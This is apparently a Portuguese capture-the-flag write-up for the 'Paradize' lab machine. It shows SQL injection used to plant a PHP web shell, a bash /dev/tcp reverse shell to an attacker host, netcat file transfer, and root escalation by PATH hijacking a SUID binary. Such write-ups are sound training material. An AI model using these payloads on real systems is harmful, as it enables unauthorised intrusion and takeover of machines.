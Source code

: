 ```yaml
---
title: 'Paradize Writeup'
date: '2024-11-30'
tags: ['CVE-2022-36231', 'Command Injection', 'Linux']
draft: false
summary: 'A máquina Injection é vulnerável a Command Injection (CVE-2022-36231) e escalonamento de privilégios via sudo.'
images: ['/static/images/paradize-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/paradize-writeup-images/default.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Paradize

---

## **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 2e:46:3f:4e:29:18:65:c6:83:44:02:99:72:92:cc:84 (ECDSA)
|_  256 60:fc:6f:94:db:f1:72:13:7b:9f:51:4f:88:5c:1e:93 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://paradize.hc
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Somente as portas 22 (SSH) e 80 (HTTP) estão abertas.

---

## **Enumeration**

`http://172.16.7.123`

![paradize](/static/images/paradize-writeup-images/image.png)

`sudo vim /etc/hosts`

![paradize 1](/static/images/paradize-writeup-images/image1.png)

Acessando a aplicação

`http://paradize.hc`

![paradize 2](/static/images/paradize-writeup-images/image2.png)

Registrando um novo usuário

![paradize 3](/static/images/paradize-writeup-images/image3.png)

Aparentemente o campo de login/register não são vulneráveis a SQL Injection (Aspas simples não funcionou).

Após logarmos, temos uma funcionalidade de ‘Change Passord’.

![paradize 4](/static/images/paradize-writeup-images/image4.png)

Ao passar uma aspas simples, a aplicação retorna um erro do banco de dados, indicando um possível SQL Injection

![paradize 5](/static/images/paradize-writeup-images/image5.png)

![paradize 6](/static/images/paradize-writeup-images/image6.png)

Capturei a requisição no Burp para facilitar a exploração.

O próximo passo é explorar o SQL Injection, começamos enumerando o numero de colunas presente no banco de dados.

`' UNION SELECT 1 #`

![paradize 7](/static/images/paradize-writeup-images/image7.png)

Existem 3 colunas nesse banco de dados, pois a aplicação não exibiu um erro.

`' UNION SELECT 1,2,3 #`

![paradize 8](/static/images/paradize-writeup-images/image8.png)

O próximo passo é utilizar o SQL Injection pra injetar uma web-shell em um arquivo com a função `into outfile` do MySQL.

Para identificar um diretório com permissões de escrita, podemos utilizar o modo `recursion` do `ffuf`

### Fuzzing

`ffuf -u http://paradize.hc/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -recursion`

![paradize 9](/static/images/paradize-writeup-images/image9.png)

`'union select 1,"<?php system($_GET['cmd']); ?>",3 into outfile "/var/www/html/public/images/uploads/shell.php"-- -`

![paradize 10](/static/images/paradize-writeup-images/image10.png)

![paradize 11](/static/images/paradize-writeup-images/image11.png)

---

## FootHold

`bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'`

OBS: Lembre de encodar a payload.

![paradize 12](/static/images/paradize-writeup-images/image12.png)

`nc -lnvp 1337`

![paradize 13](/static/images/paradize-writeup-images/image13.png)

---

## Privillege Escalation

`find / -perm -u=s 2>/dev/null`

![paradize 14](/static/images/paradize-writeup-images/image14.png)

Executando o binário pra ver o que ele faz

![paradize 15](/static/images/paradize-writeup-images/image15.png)

Transferindo ele pra nossa maquina, para analisar melhor

```jsx
#kali
nc -lnvp 8000 >enrollment
#alvo
nc 10.0.31.150 8000 < /usr/sbin/enrollment
```

![paradize 16](/static/images/paradize-writeup-images/image16.png)

Analisando o binário no **Ghidra** , podemos ver que ele chama o comando `system` pra executar o programa `figlet` .

![paradize 17](/static/images/paradize-writeup-images/image17.png)

No Linux, os arquivos são executados em uma ordem especifica, sabendo disso podemos criar um arquivo chamado `figlet` malicioso que se será executado antes pelo binário `enrollment` utilizando a técnica de **Path Hijacking**.

```bash
www-data@ip-172-16-7-123:/tmp$ echo '#!/bin/bash' > figlet
www-data@ip-172-16-7-123:/tmp$ echo 'chmod u+s /bin/bash' >> figlet
www-data@ip-172-16-7-123:/tmp$ chmod 777 figlet
www-data@ip-172-16-7-123:/tmp$ export PATH=$(pwd):$PATH
www-data@ip-172-16-7-123:/tmp$ /usr/sbin/enrollment

```

![paradize 18](/static/images/paradize-writeup-images/image18.png)

---

## Proof

![paradize 19](/static/images/paradize-writeup-images/image19.png)
